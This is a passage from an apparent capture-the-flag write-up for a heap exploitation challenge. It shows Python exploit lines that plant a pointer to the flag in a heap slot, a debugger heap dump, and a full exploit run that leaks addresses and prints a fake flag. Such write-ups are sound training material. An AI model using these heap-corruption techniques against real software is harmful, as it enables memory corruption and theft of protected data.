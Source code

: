 ```py
create_memory(b'txt\n')
create_memory(b'A'*8 + bytes(reversed(bytes.fromhex(flag_address))) + b'\x00\n')
```
The last line writes 8 bytes of garbage in the slot 0, and then the address of the flag to the slot 1:
```
gef➤  heap chunks
Chunk(addr=0x5617b984c010, size=0x290, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00005617b984c010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x5617b984c2a0, size=0x90, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00005617b984c2a0     41 41 41 41 41 41 41 41 30 c3 84 b9 17 56 00 00    AAAAAAAA0....V..]
Chunk(addr=0x5617b984c330, size=0x50, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00005617b984c330     73 72 64 6e 6c 65 6e 7b 66 61 6b 65 5f 66 6c 61    srdnlen{fake_fla]
```
The first slot of the initial array is now full of garbage, and the second slot is a pointer to the flag. If we try to retrieve the content of the slot 1, we should get the flag:
```py
r = read_memory(b'1\n')
print(b'flag: ' + r)
```
Indeed, if we run the entire exploit:
```
$ python3 exploit.py 
[+] Starting local process './k511.elf': pid 4821
Protected = 0x55ce0dd83502
Unprotected = 0x55cb516d23d0
Flag = 0x55cb516d2330
Slot 0 address = 0x55cb516d22a0
Slot 0 address = 0x55cb516d22a0
Slot 0 protected address = 0x55ce0dd83472
b'flag: srdnlen{fake_flag}'
[*] Stopped process './k511.elf' (pid 4821)
```